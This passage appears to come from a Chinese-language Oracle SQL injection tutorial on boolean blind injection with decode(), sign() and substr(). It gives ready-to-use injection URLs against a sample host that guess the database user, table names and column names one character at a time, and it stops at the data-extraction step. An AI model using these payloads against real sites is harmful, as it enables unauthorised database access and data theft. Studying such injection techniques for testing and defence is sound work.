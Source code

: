 ##### 11)布尔型盲注

```
decode()函数布尔盲注

decode(字段或字段的运算，值1，值2，值3）

这个函数运行的结果是，当字段或字段的运算的值等于值1时，该函数返回值2，否则返回3。

当然值1，值2，值3也可以是表达式，这个函数使得某些sql语句简单了许多。

使用方法：

比较大小
```

```
select decode(sign(变量1-变量2),-1,变量1,变量2) from dual; --取较小值
```

```
sign()函数根据某个值是0、正数还是负数，分别返回0、1、-1

例如：

变量1=10，变量2=20，则sign(变量1-变量2)返回-1，decode解码结果为“变量1”，达到了取较小值的目的。
```

```
select decode(sign(10-20),-1,10,20) from dual;                   
```

###### 1.**猜解当前用户**

```
判断是否是TEST用户
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(user,'TEST',1,0) from dual) --+

也可利用substr()函数进行逐一猜解
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select table_name from all_tables where rownum=1 and owner='TEST'),1,1),'T',1,0) from dual) --+
```

###### 2.**猜解表名**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select table_name from all_tables where rownum=1 and owner='TEST'),1,1),'N',1,0) from dual) --+
```

###### 3.**猜解字段名**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1),'I',1,0) from dual) --+
```

###### 4.**猜解数据**
